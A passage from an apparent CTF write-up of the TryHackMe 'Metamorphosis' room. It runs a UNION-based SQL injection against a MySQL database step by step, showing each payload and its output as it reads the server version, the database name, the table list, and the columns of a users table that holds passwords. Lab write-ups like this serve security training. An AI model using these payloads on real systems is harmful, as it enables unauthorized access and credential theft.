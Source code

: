 ```shell
┌──(root🌸siunam)-[~/ctf/thm/ctf/Metamorphosis]
└─# python3 user_query.py
[*] Payload: " UNION ALL SELECT NULL,NULL,"string3"-- -
[*] Payload result:
string3
```

**Now, we can confirm the DBMS is really MySQL or not:**
```py
payload = '''" UNION ALL SELECT NULL,NULL,@@version-- -'''
```

```shell
┌──(root🌸siunam)-[~/ctf/thm/ctf/Metamorphosis]
└─# python3 user_query.py
[*] Payload: " UNION ALL SELECT NULL,NULL,@@version-- -
[*] Payload result:
5.7.34-0ubuntu0.18.04.1
```

- DBMS information: MySQL version 5.7.34-0ubuntu0.18.04.1

**Let's enumerate the database!**
```shell
┌──(root🌸siunam)-[~/ctf/thm/ctf/Metamorphosis]
└─# python3 user_query.py
[*] Payload: " UNION ALL SELECT NULL,NULL,database()-- -
[*] Payload result:
db
```

- Current database: `db`

**List all tables:**
```shell
┌──(root🌸siunam)-[~/ctf/thm/ctf/Metamorphosis]
└─# python3 user_query.py
[*] Payload: " UNION ALL SELECT NULL,NULL,table_name FROM information_schema.tables WHERE table_schema != "mysql" AND table_schema != "information_schema"-- -
[*] Payload result:
[...]
users
[...]
```

**The `users` table looks interesting:**
```shell
┌──(root🌸siunam)-[~/ctf/thm/ctf/Metamorphosis]
└─# python3 user_query.py
[*] Payload: " UNION ALL SELECT NULL,NULL,column_name FROM information_schema.columns WHERE table_name = "users"-- -
[*] Payload result:
uname
password
USER
CURRENT_CONNECTIONS
TOTAL_CONNECTIONS
```

